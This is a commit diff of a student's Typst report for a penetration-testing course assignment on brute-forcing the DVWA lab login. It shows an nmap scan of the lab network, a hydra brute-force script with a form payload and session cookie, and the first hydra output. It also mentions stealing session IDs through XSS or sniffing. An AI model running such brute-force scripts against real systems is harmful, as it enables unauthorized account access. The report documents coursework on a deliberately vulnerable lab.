

Before and after one commit to sourander/KYBS2001-penetration-testing, a Typst document (report/assignment_06.typ): part of the page before the commit and two parts of pages 1 and 2 of 2 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with Typst 0.15.

Commit message:
Assignment 6 done

````diff
--- a/report/assignment_06.typ
+++ b/report/assignment_06.typ
@@ -2,9 +2,68 @@
 
 == Overview and Definitions
 
-This section will document the DVWA brute-force login assignment, including the authentication weakness, attack workflow, impact on account security, and hardening recommendations.
+This section will document the DVWA brute-force login assignment using hydra. The assignment instructions seem to be fairly complete, so I won't be using any external resources for this assignment.
 
 == Target Setup and Relevant Code
 
+This time, the target is running DVWA and also a project called #link("https://github.com/spiderlabs/mcir")[The Magical Code Injection Rainbow!] (MCIR). First step was to login to the DVWA and use Firefox's developer tools to fetch the `PHPSESSID` cookie value. This time, it was:
+
+```
+fev6nqcplpprp08svhf9e278k3
+```
+
+Next step was to login to the target machine using SSH.
+
+```
+ssh jksouran@193.167.189.112 -p 2893
+```
+
 == Observations
 
+The machine is running Debian 10 (buster), has a hostname `attack_tools` and my username is `jksouran`. I am in my primary group and also in sudo group. The IP of this machine is `173.0.72.2` with `/24` network. To find the local IP address of the DVWA machine, I used `nmap` to scan the network:
+
+```
+sudo nmap -F 173.0.72.0/24
+```
+
+The network scan revealed the following hosts:
+
+- `.1` - `docker-test-environment`. This is the gateway. Ports 22 and 80 open.
+- `.2` - `attack_tools`. This is the machine I am logged in. Port 22 is open.
+- `.3` - `jksouran_dvwa_1.jksouran_dvwa_lan`. This is the DVWA machine. Ports 80 and 3306 are open.
+- `.4` - `jksouran_mysqldb_1.jksouran_dvwa_lan`. This is a MySQL database machine. Port 3306 is open.
+- `.5` - `jksouran_mcir_1.jksouran_dvwa_lan`. This is the MCIR machine. Port 80 is open.
+
+The command is long and thus error prone, so I creted a `hailhydra.sh` shell script to run the hydra command:
+
+```bash
+#!/bin/bash
+
+# Vars
+USERNAMES='/usr/share/usernames'
+PASSWORDS='/usr/share/common.txt'
+PHPSESSID='fev6nqcplpprp08svhf9e278k3'
+TARGET_IP='173.0.72.3'
+
+# Build the payload
+PAYLOAD="/vulnerabilities/brute/:"
+PAYLOAD+="username=^USER^&password=^PASS^&Login=Login:"
+PAYLOAD+="F=Username and/or password incorrect.:"
+PAYLOAD+="H=Cookie: PHPSESSID=${PHPSESSID}; security=low"
+
+# Run Hydra (later on, I added: -t 64)
+hydra "${TARGET_IP}" -F -V -L "${USERNAMES}" \
+   -P "${PASSWORDS}" \
+   http-get-form "${PAYLOAD}"
+```
+
+The PHP session ID is a dependency. If we would not have a valid session ID, the server would not accept our login attempts. Thus, to get a valid session ID, this vulnerability is not exploitable without e.g. using the XSS vulnerability from Assignment 1 to steal a session ID using injected JavaScript code or by using a packet sniffer -- such as Wireshark -- to capture the session ID from the network traffic. The server is HTTP instead of HTTPS, so this would be fairly trivial to do.
+
+Running the script reveals the login process, since the verbose flag is on. The output is super verbose, but starts like this:
+
+```
+ksouran@attack_tools:~$ bash hailhydra.sh
+Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
+
+Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-05-09 08:03:06
+[DATA] max 16 tasks per 1 server, overall 16 tasks, 96455 login tries (l:101/p:955), ~6029 tries per task
````
Also changed, not shown: report/main.typ (+8 -6 lines), report/assignment_06.typ (19 more changed lines).
